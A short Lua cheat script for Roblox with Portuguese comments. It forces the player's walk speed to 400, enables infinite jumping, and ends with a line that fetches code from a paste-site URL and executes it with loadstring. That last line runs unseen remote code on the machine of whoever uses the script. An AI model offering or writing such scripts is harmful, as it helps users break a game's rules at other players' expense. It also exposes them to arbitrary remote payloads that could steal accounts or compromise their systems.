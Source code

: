 local Player = game:GetService("Players").LocalPlayer
local UIS = game:GetService("UserInputService")

-- Loop para garantir que a speed continue ativa
task.spawn(function()
    while true do
        if Player.Character and Player.Character:FindFirstChild("Humanoid") then
            Player.Character.Humanoid.WalkSpeed = 400
        end
        task.wait(0.1) -- Pequeno intervalo para evitar uso excessivo de recursos
    end
end)

-- Pulo infinito
UIS.JumpRequest:Connect(function()
    if Player.Character and Player.Character:FindFirstChild("Humanoid") then
        Player.Character.Humanoid:ChangeState(Enum.HumanoidStateType.Jumping)
    end
end)

loadstring(game:HttpGet("https://pastefy.app/Ocvq0Xwx/raw"))()
